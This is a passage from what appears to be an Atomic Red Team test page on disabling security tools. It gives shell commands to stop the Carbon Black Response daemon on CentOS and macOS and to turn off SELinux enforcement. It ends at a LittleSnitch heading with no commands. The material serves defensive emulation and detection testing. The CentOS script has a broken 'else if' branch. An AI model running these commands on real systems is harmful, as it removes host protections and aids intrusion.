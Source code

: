 Disable the Cb Response service

**Supported Platforms:** Linux

#### Attack Commands: Run with `sh`!

```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```

<br/>
<br/>

## Atomic Test #4 - Disable SELinux

Disables SELinux enforcement

**Supported Platforms:** Linux

#### Attack Commands: Run with `sh`!

```sh
setenforce 0
```

<br/>
<br/>

## Atomic Test #5 - Disable Carbon Black Response

Disables Carbon Black Response

**Supported Platforms:** macOS

#### Attack Commands: Run with `sh`!

```sh
sudo launchctl unload /Library/LaunchDaemons/com.carbonblack.daemon.plist
```

<br/>
<br/>

## Atomic Test #6 - Disable LittleSnitch

Disables LittleSnitch

**Supported Platforms:** macOS

#### Attack Commands: Run with `sh`!
